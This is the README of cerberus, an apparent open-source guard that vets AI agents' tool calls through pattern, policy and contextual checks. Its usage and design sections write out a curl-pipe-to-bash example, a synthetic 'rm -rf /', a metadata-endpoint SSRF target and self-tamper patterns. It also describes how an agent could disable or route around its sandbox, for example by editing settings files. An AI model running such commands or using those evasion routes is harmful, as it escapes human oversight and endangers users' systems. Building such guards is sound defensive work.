

# cerberus



A guard for AI agent tool calls, with three heads.

cerberus is a Rust CLI that judges every state-changing tool call before
an agent executes it, regardless of which harness is asking. `cerberus
guard` runs a fail-closed `gate` and then up to three independent heads:

| Head | Catches | How |
| --- | --- | --- |
| `risk` | commands that are dangerous no matter who's running them or why *(general risk avoidance)* | command-pattern scanning via [tirith](https://github.com/sheeki03/tirith) |
| `policy` | calls that break a rule the org has decided on *(governance policy)* | policy evaluation via [cupcake](https://github.com/eqtylab/cupcake) |
| `judgement` | calls that are only bad because of state nothing in the payload reveals: git state, kubectl/terraform context, the hook payload itself *(contextual bad decisions)* | Rhai-scripted situational checks |

All three run by default and can be disabled individually.

## Harnesses

The three heads have no idea which harness triggered them. Each harness's
own wire format and hook-registration mechanism gets normalized at the
edge, in `cerberus guard` and `cerberus init`; the rules, the policies,
and the tirith overlay all run once, unmodified, no matter where the call
came from. `cerberus init` wires whichever of these are actually
installed, each behind its own detection check, so running it on a
machine without a given harness doesn't touch that harness's files at
all:

- **Claude Code** — `~/.claude/settings.json`, wired if `claude` is on
  `$PATH`. The first harness cerberus supported, and still the shape its
  internal payload is built around.
- **Codex CLI** — `~/.codex/hooks.json`, wired if `codex` is on `$PATH`.
  Codex's `PreToolUse`/`SessionStart` hooks use Claude's exact
  request/response shape (confirmed against OpenAI's own docs), so
  `guard`/`health` run unmodified here too. Codex's hooks are opt-in
  though: `cerberus init` also sets `[features] codex_hooks = true` in
  `~/.codex/config.toml`, since hooks are documented to be silent no-ops
  without it.
- **Cursor** — `~/.cursor/hooks.json`, wired if a `~/.cursor` directory
  exists. `beforeShellExecution`/`beforeMCPExecution` send a real payload
  shape and expect a real response vocabulary (`permission`, not
  `permissionDecision`), so `guard` translates both directions through
  `src/harness/cursor.rs`, dispatched off the payload's own
  `hook_event_name`, no `--harness` flag needed. Cursor has no pre-write
  file hook, only the post-hoc `afterFileEdit`, so this covers Bash and
  MCP calls only; Write/Edit/NotebookEdit aren't guardable there yet.
- **Hermes Agent** — `~/.hermes/plugins/cerberus/`, wired if `hermes` is
  on `$PATH`. Hermes's best-documented integration point is an in-process
  Python `pre_tool_call` callback rather than a subprocess given JSON on
  stdin, so `cerberus init` writes a small Python plugin
  ([`harness-templates/hermes/`](harness-templates/hermes/)) that shells
  out to the real `cerberus guard` binary instead. It allowlists the
  handful of Hermes's ~86 tools cerberus actually guards (`terminal`,
  `write_file`, `patch`), mapped to their `Bash`/`Write`/`Edit` names. Its
  manifest follows Hermes's documented plugin-discovery format but hasn't
  been checked against the real binary; `cerberus init` says so and
  points at `hermes doctor`.
- **opencode** — `~/.config/opencode/plugins/cerberus-guard.ts`, wired if
  `opencode` is on `$PATH`. Same problem as Hermes, same fix: an
  in-process `tool.execute.before` hook rather than a subprocess
  contract, so a plugin shells out to `cerberus guard` via Bun's `$`.
  opencode has no per-tool matcher at all, so the plugin allowlists
  `bash`/`edit`/`write`/`webfetch` itself, and remaps opencode's camelCase
  argument names (`filePath`) to the snake_case shape every rule expects.
  Checked end to end against the real `cerberus` binary: a fake `edit` on
  a Claude `settings.json` correctly tripped SANDBOX-003 through that
  remap.

More harnesses land as `cerberus init` learns to wire them; see
`CHANGELOG.md` for what's landed.

## Scope

`guard` is wired to the tools that change something or reach the network:

```
Bash | Write | Edit | NotebookEdit | WebFetch | mcp__.*
```

`Read`, `Grep`, `Glob`, and the rest are deliberately absent. Nothing they
do is worth denying, and keeping the hook off the hottest tools in a session
is what lets `guard` stay a subprocess-per-call design with no cache.

Guarding more than Bash isn't cosmetic. `sandbox-integrity` has always
blocked a shell command that edits the sandbox configuration in a Claude
`settings.json`; while the hook was Bash-only, the agent could reach the
exact same outcome by using the Edit tool instead of `sed`, and the guard
never saw the call.

The heads are not equally general. `policy` is tool-agnostic — cupcake gets
the hook payload verbatim. `judgement` sees every guarded tool. `risk` stays
**Bash-only by design**: tirith scans shell command strings, and there's
nothing meaningful to hand it for a `Write` or a `WebFetch`.

## Requirements

Building needs Rust 1.88 or newer. Two of the three heads shell out to
binaries you have to install yourself:

| Head | Needs | Where to get it |
| --- | --- | --- |
| `risk` | `tirith` | [sheeki03/tirith](https://github.com/sheeki03/tirith) |
| `policy` | `cupcake` and `opa` | [eqtylab/cupcake](https://github.com/eqtylab/cupcake), [openpolicyagent.org](https://www.openpolicyagent.org/docs/latest/#running-opa) |
| `judgement` | nothing beyond cerberus | n/a |

If a head is enabled but its binary is missing, `health` marks the guard
degraded at the next `SessionStart` and `gate` then denies **every guarded
tool** until it's fixed. That's deliberate: under `bypassPermissions` these
heads are the only thing between the agent and your machine, so a guard that
has quietly stopped working is worse than no guard. The read-only tools are
outside the matcher and keep working, so the agent can still read enough to
explain what broke. Install the binaries, or turn the head off in
`config.toml`.

## Install

```sh
git clone https://github.com/ahokinson/cerberus
cd cerberus
cargo install --path .
cerberus init
```

`cerberus init` bootstraps everything the guard needs and is safe to
re-run:

- writes the shipped [`rules/*.rhai`](rules/) scripts into
  `${XDG_CONFIG_HOME:-$HOME/.config}/cerberus/rules/`
- seeds a default `config.toml` if one doesn't already exist, and never
  touches an existing one
- creates the cupcake stub project (`cupcake init --harness claude`) at
  `${XDG_DATA_HOME:-$HOME/.local/share}/cupcake-stub/` if `cupcake` is on
  `$PATH` and it doesn't already exist
- bootstraps cupcake's **global** store for the `claude` harness
  (`${XDG_CONFIG_HOME:-$HOME/.config}/cupcake/`) if it doesn't already
  exist, and writes the shipped [`policies/cupcake/*.rego`](policies/cupcake/)
  into its reserved `policies/claude/custom/cerberus/` subdirectory —
  always refreshed, never touching anything else in the store
- writes the shipped [`policies/tirith/policy.yaml`](policies/tirith/)
  overlay to a cerberus-owned tirith policy root, always refreshed
- wires the hooks into `~/.claude/settings.json`, idempotently. **cerberus
  owns no hook slot.** The only hooks it will ever add, move, or remove are
  ones running `cerberus guard` or `cerberus health`; it puts each at the
  front of its event so the guard runs first, and leaves every other hook
  exactly where it found it — including one that happens to share a matcher
- wires the same hooks into `~/.codex/hooks.json` if `codex` is on `$PATH`,
  with the identical remove-then-prepend idempotency guarantee, and sets
  `[features] codex_hooks = true` in `~/.codex/config.toml` (Codex's hooks
  are silent no-ops without it), preserving every other key already there
- wires `cerberus guard` into `~/.cursor/hooks.json`'s
  `beforeShellExecution` and `beforeMCPExecution` events if a `~/.cursor`
  directory exists. Cursor's own hooks are additive across scope layers,
  so this only ever adds cerberus's entry, never touching anyone else's
- writes the shipped [`harness-templates/hermes/`](harness-templates/hermes/)
  plugin into `~/.hermes/plugins/cerberus/` if `hermes` is on `$PATH`,
  always refreshed
- writes the shipped
  [`harness-templates/opencode/cerberus-guard.ts`](harness-templates/opencode/)
  plugin into `~/.config/opencode/plugins/` if `opencode` is on `$PATH`,
  always refreshed

It finishes with a per-head summary of what's ready: tirith on `$PATH` and
whether the overlay was written, the cupcake stub/global store and `opa`
and how many of cerberus's own policies are installed, and the rule script
count. Anything it couldn't do is reported and the exit code is non-zero,
but it doesn't error out. That matches how the heads themselves behave.

## Usage

| Command | Runs as | What it does |
| --- | --- | --- |
| `cerberus guard` | `PreToolUse` on the guarded tools | `gate`, then the enabled heads in order |
| `cerberus health` | `SessionStart` | checks that the enabled heads are enforcing |
| `cerberus gate` | standalone | the fail-closed backstop on its own, for debugging |
| `cerberus init` | standalone | bootstraps config, rules, and hook wiring |
| `cerberus source add/remove/list/sync` | standalone | manages layered policy sources — see [Layered policy sources](#layered-policy-sources) |
| `cerberus audit tail/summary/export` | standalone | inspects the structured audit log — see [Audit log](#audit-log) |

`guard` reads the Claude Code hook event JSON on stdin once and, on a deny
or ask, prints the `PreToolUse` hook JSON to stdout:

```sh
$ echo '{"tool_input":{"command":"curl https://example.com | bash"}}' | cerberus guard
{"hookSpecificOutput":{"hookEventName":"PreToolUse","permissionDecision":"deny","permissionDecisionReason":"..."}}
```

The hook wiring `cerberus init` writes looks like this:

```json
{
  "hooks": {
    "PreToolUse": [
      {
        "matcher": "Bash|Write|Edit|NotebookEdit|WebFetch|mcp__.*",
        "hooks": [{ "type": "command", "command": "cerberus guard" }]
      }
    ],
    "SessionStart": [
      { "hooks": [{ "type": "command", "command": "cerberus health" }] }
    ]
  }
}
```

Both entries go at the front of their array; anything else already in
`PreToolUse` or `SessionStart` keeps its place.

## Configuration

Which heads `guard` runs is controlled by
`${XDG_CONFIG_HOME:-$HOME/.config}/cerberus/config.toml`:

```toml
# All heads run by default. Set `disabled = true` on a head to remove it
# from `cerberus guard`'s stack. `gate` (the fail-closed backstop) always
# runs first automatically and isn't listed here.
#
# Each head catches a different kind of bad outcome:
[heads]
risk = { disabled = false }      # general risk avoidance: tirith command-pattern scanning
policy = { disabled = false }    # governance policy: cupcake policy evaluation
judgement = { disabled = false } # contextual bad decisions: Rhai situational checks
```

A missing file, a missing `[heads]` table, or a head simply absent from the
table all mean the same thing: enabled. Config problems fail open to
running everything. Run order is fixed (`gate`, then `risk`, `policy`,
`judgement`) and isn't configurable. Only which heads are enabled is.

`health` never complains about a disabled head. Turning one off is a choice,
not a degradation.

## Rules

Rule content is the one thing cerberus itself owns and ships, across all
three heads. Each head's content lives in its own canonical directory in
this repo, embedded into the binary at compile time, and `cerberus init`
writes it out to the right runtime location for that head.

### judgement

`judgement` runs every `*.rhai` script it finds in
`${XDG_CONFIG_HOME:-$HOME/.config}/cerberus/rules/`, calling each script's
`check(cmd, cwd, input)` function and denying on the first one that returns
a string. The canonical scripts live in this repo's [`rules/`](rules/)
directory.

Four ship with cerberus. Every one of them runs through `judgement`, since
that's the only head that can see live process, git, and settings state, but
they serve different purposes. Each carries its purpose as a comment at the
top of its file:

- **git-safety** *(general risk avoidance)*. Protects against irreversible
  loss of work: branch switches or discards with uncommitted changes,
  force-pushing over remote commits your local history doesn't have,
  force-deleting a branch with unmerged commits, rebasing or amending
  history already pushed upstream, and `git clean -f` actually removing
  files (it stays quiet on a no-op clean).
- **environment-awareness** *(contextual bad decisions)*. Blocks
  `kubectl delete` or `terraform destroy`/`apply` while the active context
  or workspace name looks like production.
- **release-hygiene** *(governance policy)*. Blocks `npm publish` and
  `cargo publish` when the working tree has uncommitted changes, so what
  ships always matches a real commit.
- **sandbox-integrity** *(governance policy)*. Blocks the agent from
  weakening its own sandbox three ways: setting the Bash tool's
  `dangerouslyDisableSandbox` flag (SANDBOX-001), running a shell command
  that edits the `sandbox` config in a Claude `settings.json` (SANDBOX-002),
  or pointing a file-writing tool at a Claude `settings.json` at all
  (SANDBOX-003). That last one is unconditional — a `Write` replaces the
  whole file, so the dangerous edit is exactly the one that deletes the
  sandbox block and never mentions it. Those decisions belong to a human.
  SANDBOX-001 and SANDBOX-003 double as `health`'s canaries for the
  judgement head.

To add a personal rule, drop a `.rhai` file into the runtime rules
directory. Nothing needs rebuilding, and re-running `init` leaves it alone,
since `init` only ever writes the four shipped filenames. See
[CONTRIBUTING.md](CONTRIBUTING.md) for the native function API available to
scripts: git state, kubectl/terraform context, tokenizing.

### policy

`policy` hands cupcake the hook payload verbatim; cupcake layers a
**global** store (machine-wide, applies to every project on the machine) on
top of each project's own `.cupcake/` policies. `cerberus init` bootstraps
that global store for the `claude` harness and installs cerberus's own
policies into a reserved `custom/cerberus/` subdirectory inside it —
deliberately not the shared `custom/` namespace, since that's where a
user's own onboarded policies live and cerberus must never collide with
them. The canonical `.rego` files live in this repo's
[`policies/cupcake/`](policies/cupcake/) directory.

Four ship with cerberus, all payload-only governance invariants: cupcake
never sees live git/process/settings state, so anything needing that stays
`judgement`'s job.

- **CERB-POL-001 sandbox-integrity**. Defense-in-depth mirror of
  judgement's SANDBOX-001 (`dangerouslyDisableSandbox`). Worth the overlap:
  `judgement` can be legitimately disabled in `config.toml` without
  `health` calling it degraded, so this keeps the single highest-value
  invariant enforced by an independent mechanism either way.
- **CERB-POL-002 webfetch-ssrf**. Denies a WebFetch targeting a cloud
  instance metadata endpoint (`169.254.169.254` and friends) — classic
  SSRF-to-credential-theft, and a gap `risk` structurally cannot cover
  since WebFetch never runs through Bash.
- **CERB-POL-003 ci-trust-boundary**. Denies a file-writing tool pointed at
  a CI/CD pipeline definition (`.github/workflows/`, `.gitlab-ci.yml`,
  `.circleci/config.yml`) or a git hook — the same trust-boundary shape as
  SANDBOX-003, applied to CI instead of Claude's own settings.
- **CERB-POL-004 guard-self-protection**. Denies a file-writing tool
  pointed at cerberus's, tirith's, or cupcake's own runtime configuration.
  This is `health`'s canary for the policy head's global-store content.

### risk

`risk` scans Bash command strings via tirith, which ships its own
extensive built-in detections that already apply with zero configuration.
cerberus adds a small overlay on top of those —
[`policies/tirith/policy.yaml`](policies/tirith/policy.yaml), installed by
`cerberus init` to a cerberus-owned tirith policy root and applied via
`TIRITH_POLICY_ROOT` — but **only** in repos that have no
`.tirith/policy.yaml` of their own; a repo or team's own tirith policy
always wins over cerberus's overlay.

Only one custom rule ships, not several — a hard-won constraint, not a
choice. `tirith check` (what `risk` actually calls) only evaluates
`custom_rules` once tirith's own built-in tier-1 detections have already
escalated analysis past tier 1; a pattern with no overlap in tirith's own
~150 built-in categories (an early draft targeted nested
`--dangerously-skip-permissions` sessions and `git --no-verify`) never gets
evaluated in production at all, even though `tirith rule test` reports it
firing — that command tests a named rule directly, bypassing tirith's own
tiering entirely, and is not equivalent to what `guard` actually runs.
Verify any future addition here against real `tirith check` output, not
just `tirith rule test`; see [CONTRIBUTING.md](CONTRIBUTING.md).

- **cerberus-guard-self-tamper**. Removing cerberus's, tirith's, or
  cupcake's own configuration, or uninstalling their binaries. Survives
  specifically because `rm -rf`/`*-uninstall` commands already trip one of
  tirith's own built-in categories, escalating analysis regardless of
  severity/paranoia filtering. Tirith-side counterpart to CERB-POL-004 —
  this is `health`'s canary for the risk head's overlay content.

Per-session deny counts are written to
`${XDG_STATE_HOME:-$HOME/.local/state}/guard/violations-<session_id>.state`
for [pharos](https://github.com/ahokinson/pharos)'s statusline to read,
keyed by head name (`risk`/`policy`/`judgement`).

## Layered policy sources

A source is a named, independently syncable git repo of `rules/*.rhai`
and/or `policies/*.rego` that stacks on top of a machine's personal rules —
the mechanism for turning cerberus from a per-developer tool into a team
one, without cerberus ever pulling anything on its own initiative:

```sh
cerberus source add team git@example.com:myorg/cerberus-policies.git
cerberus source list
cerberus source sync            # fetches and shows any pending update's log/diffstat
cerberus source sync --yes      # applies it
cerberus source remove team
```

`add` clones the repo, resolves `--ref` (or the remote's default branch) to
a commit, validates any `.rego` it ships with `opa check` (skipped with a
warning if `opa` isn't on `$PATH`; a validation *failure*, unlike a skip,
aborts the whole operation — nothing is installed and `config.toml` isn't
touched), installs its `rules/*.rhai` into
`${XDG_CONFIG_HOME:-$HOME/.config}/cerberus/rules/sources/<name>/` and its
`policies/*.rego` into cupcake's global store under
`policies/claude/custom/cerberus/sources/<name>/` (nested inside cerberus's
own reserved subtree, so `guard-self-protection.rego`'s existing self-tamper
protection already covers it), and pins the resolved commit in
`config.toml`. Every source's rules are checked the same way the top-level
ones are — any source that denies, denies, alongside your own rules — but a
plain `cerberus guard`/`cerberus init` never touches the network: **only
`sync` does**, and applying an update always requires `--yes`, showing the
pending commit log and a diffstat (scoped to `rules/`/`policies/`) first.
Remote content that executes against every guarded tool call should never
change on a machine without a human asking for it.

A source repo just needs `rules/*.rhai` and/or `policies/*.rego` at its
root, mirroring cerberus's own layout — `policies/` may nest by category
(subdirectories install as-is), `rules/` must stay flat — see
[CONTRIBUTING.md](CONTRIBUTING.md) for the package-naming convention a
source's `.rego` files should follow.

## Audit log

Off by default. Once `[audit] enabled = true` in `config.toml`, every
deny/ask decision is appended as a JSON line to
`${XDG_STATE_HOME:-$HOME/.local/state}/guard/audit.jsonl` — head, tool,
decision, the reason, and the raw `tool_input` that triggered it. It's off
by default specifically because that last field can contain inline secrets
(a bearer token typed into a `curl` command, say); turning it on is a
deliberate choice, not a default one. See [SECURITY.md](SECURITY.md).

```sh
cerberus audit tail -n 20
cerberus audit summary --since 7d
cerberus audit export --format csv --out blocked-this-week.csv
```

This is deliberately not telemetry — nothing here phones home. It exists so
a team lead can point at "N blocked this week, by category" as a concrete
case for why the guard is worth running, using a plain local log rather
than any new server or dashboard.

## Design notes

A single guard is a single point of failure. Each head fails open on its
own: a missing binary, a broken policy store, or a crash means that head
allows, because no individual check should be able to halt every Bash call
by breaking.

The system as a whole fails closed instead. `health` runs at every
`SessionStart` and checks that the enabled heads are actually enforcing:
that `tirith`, `opa`, and `cupcake` are on `$PATH`; that a synthetic
`rm -rf /` still gets blocked by cupcake's stock builtins; that the rules
directory exists and isn't empty, and that `sandbox-integrity.rhai` still
denies both a synthetic `dangerouslyDisableSandbox: true` event *and* a
synthetic `Write` to a Claude `settings.json`; that cupcake's global store
has cerberus's own policies installed, and that a synthetic `Write` to
cerberus's rule-scripts path is still denied by `guard-self-protection.rego`
specifically (proving cerberus's *own* policy content, not just that
cupcake itself works); and that the tirith overlay file exists and its
`cerberus-guard-self-tamper` rule still fires. Rule and policy content lives
on disk rather than only in the binary, so those checks are what catch
content an agent edited or deleted out from under the guard — sandbox
protection in particular has two independent canaries (SANDBOX-001/003 in
`judgement`, CERB-POL-001/004 in `policy`) because there are multiple shapes
of the same attack, and covering one proves nothing about the others. If any
of it fails, `health` writes a sentinel and `gate` denies every guarded tool
until `cerberus init` repairs things.

The three heads aren't redundant with each other either. Risk avoidance,
governance policy, and contextual judgement are different questions, so a
command can pass one and still fail another. Pattern scanning has no idea
what your org's release process is. A fixed policy has no idea whether your
kubectl context happens to be pointed at production right now. `judgement`
covers that gap.

## Contributing

See [CONTRIBUTING.md](CONTRIBUTING.md) for build and test tooling, the
native function API for rule scripts, and how to add a rule.

## License

MIT. See [LICENSE](LICENSE).
